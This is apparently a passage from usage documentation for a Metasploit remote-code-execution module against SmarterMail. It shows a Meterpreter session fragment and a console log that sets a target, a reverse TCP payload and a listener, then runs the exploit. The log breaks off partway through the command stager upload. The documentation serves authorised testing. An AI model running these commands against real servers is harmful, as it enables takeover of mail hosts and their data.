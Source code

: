 ```
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

* Using TARGET 1 - x86/x64 Windows CmdStager:

```
msf > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set TARGET 1
TARGET => 1
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Command Stager progress -   2.01% done (2046/101881 bytes)
[*] Command Stager progress -   4.02% done (4092/101881 bytes)
[*] Command Stager progress -   6.02% done (6138/101881 bytes)
[*] Command Stager progress -   8.03% done (8184/101881 bytes)
[*] Command Stager progress -  10.04% done (10230/101881 bytes)
[*] Command Stager progress -  12.05% done (12276/101881 bytes)
[*] Command Stager progress -  14.06% done (14322/101881 bytes)
[*] Command Stager progress -  16.07% done (16368/101881 bytes)
[*] Command Stager progress -  18.07% done (18414/101881 bytes)
[*] Command Stager progress -  20.08% done (20460/101881 bytes)
[*] Command Stager progress -  22.09% done (22506/101881 bytes)
[*] Command Stager progress -  24.10% done (24552/101881 bytes)
[*] Command Stager progress -  26.11% done (26598/101881 bytes)
[*] Command Stager progress -  28.12% done (28644/101881 bytes)
[*] Command Stager progress -  30.12% done (30690/101881 bytes)
[*] Command Stager progress -  32.13% done (32736/101881 bytes)
[*] Command Stager progress -  34.14% done (34782/101881 bytes)
[*] Command Stager progress -  36.15% done (36828/101881 bytes)
[*] Command Stager progress -  38.16% done (38874/101881 bytes)
[*] Command Stager progress -  40.16% done (40920/101881 bytes)
[*] Command Stager progress -  42.17% done (42966/101881 bytes)
[*] Command Stager progress -  44.18% done (45012/101881 bytes)
[*] Command Stager progress -  46.19% done (47058/101881 bytes)
[*] Command Stager progress -  48.20% done (49104/101881 bytes)
[*] Command Stager progress -  50.21% done (51150/101881 bytes)
[*] Command Stager progress -  52.21% done (53196/101881 bytes)
[*] Command Stager progress -  54.22% done (55242/101881 bytes)
[*] Command Stager progress -  56.23% done (57288/101881 bytes)
[*] Command Stager progress -  58.24% done (59334/101881 bytes)
[*] Command Stager progress -  60.25% done (61380/101881 bytes)
[*] Command Stager progress -  62.25% done (63426/101881 bytes)
[*] Command Stager progress -  64.26% done (65472/101881 bytes)
[*] Command Stager progress -  66.27% done (67518/101881 bytes)
[*] Command Stager progress -  68.28% done (69564/101881 bytes)
[*] Command Stager progress -  70.29% done (71610/101881 bytes)
[*] Command Stager progress -  72.30% done (73656/101881 bytes)
```